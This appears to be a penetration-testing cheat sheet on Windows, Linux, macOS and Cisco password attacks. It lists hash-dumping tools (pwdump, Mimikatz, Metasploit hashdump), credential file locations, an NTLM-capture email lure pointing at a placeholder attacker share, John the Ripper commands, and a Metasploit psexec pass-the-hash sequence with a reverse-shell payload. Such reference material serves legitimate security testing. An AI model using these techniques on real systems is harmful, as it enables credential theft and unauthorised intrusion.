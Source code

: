 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```

 
> **Obtain Windows Passswords**
Pwdump (File Dropped to Disk Caught by AV) | http://www.tarasco.org/security/pwdump_7/
fgdump (File Dropped to Disk Caught by AV, Source available to evade AV) | http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other versions of pwdump | http://www.openwall.com/passwords/windows-pwdump
Metasploit hashdump | <code> meterpreter >hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry) </code>
Mimikatz | https://github.com/gentilkiwi/mimikatz
	
**Volume Shadow Copy Service (domain controller)**
{% highlight bash %}
https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs  
https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  

{% endhighlight %}

**Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Linux Password Locations** 

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>

> **Password Guessing**

Hyrda

> **Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>

> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)

> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>

> **Pass the Hash**

***May require RID 500 account due to patch***
	
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd



